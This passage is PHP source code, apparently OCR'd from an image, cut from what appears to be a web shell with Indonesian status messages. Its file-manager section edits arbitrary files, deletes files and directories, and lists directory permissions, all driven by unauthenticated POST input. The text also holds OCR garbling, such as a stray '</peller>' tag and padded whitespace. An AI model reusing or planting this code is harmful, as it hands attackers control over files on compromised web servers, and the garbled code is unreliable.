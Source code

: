 }elseif($_POST['opt'] == 'edit'){
if(isset($_POST['src'])){
$fp = fopen($_POST['path'],'w');
if(fwrite($fp,$_POST['src'])){
echo '<font color="green">Berhasil Edit File</font><br/>';
}else{
echo '<font color="red">Gagal Edit File</font><br/>';
}
fclose($fp);
}
echo '<form method="POST">
<textarea cols=80 rows=20 name="src">'.htmlspecialchars(file_get_contents($_POST['path'])).'</textarea><br />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="edit">
<input type="submit" value="Save" />
</form>';
}
echo '</center>';
}else{
echo '</table><br/><center>';
if(isset($_GET['option']) && $_POST['opt'] == 'delete'){
if($_POST['type'] == 'dir'){
if(rmdir($_POST['path'])){
echo '<font color="green">Directory Terhapus</font><br/>';
}else{
echo '<font color="red">Directory Gagal Terhapus                                                                                                                                                                                                                                                                                             </font><br/>';
}
}elseif($_POST['type'] == 'file'){
if(unlink($_POST['path'])){
echo '<font color="green">File Terhapus</font><br/>';
}else{
echo '<font color="red">File Gagal Dihapus</font><br/>';
}
}
}
echo '</center>';
$scandir = scandir($path);
echo '<div id="content"><table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr class="first">
<td><center>Name</peller></center></td>
<td><center>Size</peller></center></td>
<td><center>Permission</peller></center></td>
<td><center>Modify</peller></center></td>
</tr>';

foreach($scandir as $dir){
if(!is_dir($path.'/'.$dir) || $dir == '.' || $dir == '..') continue;
echo '<tr>
<td><a href="?path='.$path.'/'.$dir.'">'.$dir.'</a></td>
<td><center>--</center></td>
<td><center>';
if(is_writable($path.'/'.$dir)) echo '<font color="green">';
elseif(!is_readable($path.'/'.$dir)) echo '<font color="red">';
echo perms($path.'/'.$dir);
if(is_writable($path.'/'.$dir) || !is_readable($path.'/'.$dir)) echo '</font>';
